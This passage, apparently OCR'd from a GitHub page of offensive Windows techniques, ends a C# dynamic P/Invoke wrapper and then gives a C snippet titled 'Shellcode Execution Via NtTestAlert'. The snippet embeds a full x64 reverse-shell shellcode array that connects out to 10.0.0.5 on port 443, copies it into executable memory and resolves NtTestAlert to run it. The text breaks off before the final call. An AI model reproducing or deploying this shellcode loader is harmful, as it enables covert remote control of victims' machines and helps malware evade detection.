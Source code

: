 ```cs
    {

      Type[] paramTypes = {
        typeof (IntPtr),
        typeof (EnumDesktopWindowsDelegate),
        typeof (IntPtr)
      };

      Object[] args = {
        hDesktop,
        lpfn,
        lParam
      };

      object res = DynamicPInvokeBuilder(typeof (bool), “user32.dll”, “EnumDesktopWindows”, args, paramTypes);

      return (bool) res;

    }

    public delegate bool EnumDesktopWindowsDelegate(IntPtr hWnd, int lParam);

  }
}
```

- **`Shellcode Execution Via NtTestAlert`**

```c
#include "pch.h"
#include <Windows.h>

#
pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();
int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T shellSize = sizeof(buf);
	LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
```